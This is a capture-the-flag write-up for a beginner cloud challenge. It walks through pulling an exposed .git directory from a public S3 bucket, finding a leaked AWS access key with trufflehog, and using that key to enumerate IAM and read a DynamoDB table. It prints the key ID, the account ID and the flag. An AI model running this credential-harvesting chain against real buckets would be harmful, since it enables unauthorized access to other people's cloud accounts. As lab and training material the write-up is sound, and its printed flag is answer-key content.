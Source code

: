 # Cumulus

Category: Cloud
Difficulty: Baby
Author: kangwijen

## Description

CloudTech is a new startup that just launched its company landing page to attract investors and showcase its vision. The site is simple and static, hosted entirely on AWS. With a tight deadline, the team rushed the deployment and may have overlooked some security best practices. Your task is to investigate the website and check if there are any misconfigurations or vulnerabilities. 

<a href="https://d16nohi04dvwd6.cloudfront.net">CloudTech Landing Page</a>

## Solution

1. Initial Reconnaissance

    Visit the provided site:

    ```bash
    https://d16nohi04dvwd6.cloudfront.net
    ```
    
    It's a basic static landing page with no visible dynamic behavior.

    But, using browser DevTools, we find requests to `.jpg` files are being redirected to an S3 bucket.

    ![image](src/1.png)

    ![image](src/2.png)

2. Exploring the S3 Bucket

    The redirected bucket URL is publicly accessible. Accessing it reveals folders like `.git`, `.next`, and `out`.

    ![image](src/3.png)

    The `.git` folder is exposed and accessible, which is a major misconfiguration.

3. Dumping the Git Repository

    Use AWS CLI to recursively download the `.git` directory from the bucket:

    ```bash
    aws s3 cp s3://cloudtech-c1fc7cba28dfd8af48612c4107865043/.git/ ./local/ --recursive --no-sign-request
    ```

    This retrieves the full `.git` metadata needed to reconstruct the repository.

4. Checking the Git Repository

    Use `trufflehog` to scan the dumped repo for secrets:

    ```bash
    docker run --rm -v "$(pwd)":/pwd ghcr.io/trufflesecurity/trufflehog:latest git file:///pwd/local
    ```

    The scan reveals a valid AWS access key.

    ![image](src/4.png)

    Use `git log` to inspect the commit containing the secret:

    ```bash
    git log -p -S AKIA453N4QOMLA5KOIUL
    ```

    ![image](src/5.png)

5. Enumerating the AWS Account

    Using the leaked AWS credentials, configure the AWS CLI:

    ```bash
    aws configure
    ```

    Then, run the following commands to enumerate the account:

    ```bash
    aws sts get-caller-identity
    aws iam get-user
    ```

    ![image](src/6.png)

    This confirms the credentials belong to IAM user `cloudtech-dev` under account `888751817624`. Next, list any user-attached policies:

    ```bash
    aws iam list-user-policies --user-name cloudtech-dev
    ```

    ![image](src/7.png)

    We can see the account has the `cloudtech-policy` policy attached. We can inspect the policy by running this command:

    ```bash
    aws iam get-policy --policy-arn arn:aws:iam::aws:policy/cloudtech-policy
    ```

    ![image](src/8.png)

    The policy grants read access to a DynamoDB table named `cloudtech-db`.

6. Exploring the DynamoDB Table

    With read permissions confirmed, check the table contents using:

    ```bash
    aws dynamodb scan --table-name cloudtech-db
    ```

    ![image](src/9.png)

    We can see the table has the `flag` item, and we can just copy the value of the `flag` item.

Flag: `ITSEC{d39c27906533a0d44e052520f3e47790}`

## Further Reading
- [Thinking Like a Hacker: AWS Keys in Private Repos](https://blog.gitguardian.com/thinking-like-a-hacker-aws-keys-in-private-repos/)
- [EMERALDWHALE: 15k Cloud credentials stolen in operation targeting exposed Git config files](https://sysdig.com/blog/emeraldwhale/)
- [Secure Your Repositories: Prevent Credential Leaks with Gitleaks](https://www.trevorlasn.com/blog/your-repo-is-a-leaky-ship-probably)